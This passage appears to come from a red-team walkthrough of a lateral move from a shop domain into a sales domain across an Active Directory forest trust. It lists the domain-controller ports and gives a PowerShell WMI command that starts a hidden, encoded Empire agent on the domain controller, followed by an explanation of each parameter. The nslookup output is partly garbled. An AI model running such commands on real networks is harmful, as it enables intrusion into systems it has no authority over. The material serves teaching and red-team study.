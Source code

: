 The IP address 10.30.30.210 falls within the GBSales domain network, explaining why we cannot access it from the Citrix server in the GBShop domain.

```
c:\Users\Public> nslookup
Address: 10.10.20.199
GBSALES.CORP
Name:
Address: GBSALES.CORP
10.30.30.88
```

We assume that sales files from multiple shops are automatically sent by FTP to this centralized location. While we could wait for the next transfer and intercept the files before they are erased, this is a last resort.

Apart from the Citrix machine and a few file servers, there is not much activity in the GBShop domain, which primarily acts as a relay or buffer to other internal components. This setup cleverly segregates environments and protects critical assets.

Attempts to access the GBSales domain from the Citrix server result in zero response, indicating a strict separation. However, a trust relationship exists between the two forests (GBSHOP and GBSALES), allowing some connections between critical components.

Microsoft documentation specifies that the following ports must be open between domain controllers of both domains:

- 445: File transfers
- 88: Kerberos authentication
- 135: RPC communication
- 389: LDAP communications
- Dynamic ports: RPC communication

This means that to access the GBSALES department, we must go through the GBSHOP domain controller. Although executing payloads on the DC is generally not advised, we have no other choice this time.

Using WMI on the PowerShell command line from the Citrix server, we execute a remote process on the DC server to spawn an Empire agent:

```
# $cmd holds an Empire agent
PS > $cmd = "powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTA[...]"
PS > Invoke-WmiMethod -ComputerName SV0198 -Class win32_process -Name create -ArgumentList ($cmd)
```

- Invoke-WmiMethod: This cmdlet is used to invoke a method of a WMI class.

- -ComputerName SV0198: This parameter specifies the target computer on which the WMI method should be invoked. In this case, SV0198 is the name of the target computer.

- -Class win32_process: This parameter specifies the WMI class that contains the method you want to call. The win32_process is a WMI class that represents processes on a Windows system. The win32_process class is available on both 32-bit and 64-bit versions of Windows. It abstracts the details of whether the system is 32-bit or 64-bit, so you use it the same way in your WMI queries and methods. In other words, when creating a process, if you're running a 64-bit system, the create method of win32_process will still execute the command as a 64-bit process if it's available and appropriate.

- -Name create: This parameter specifies the name of the method you want to invoke. The create method of the win32_process class is used to create a new process on the target computer.
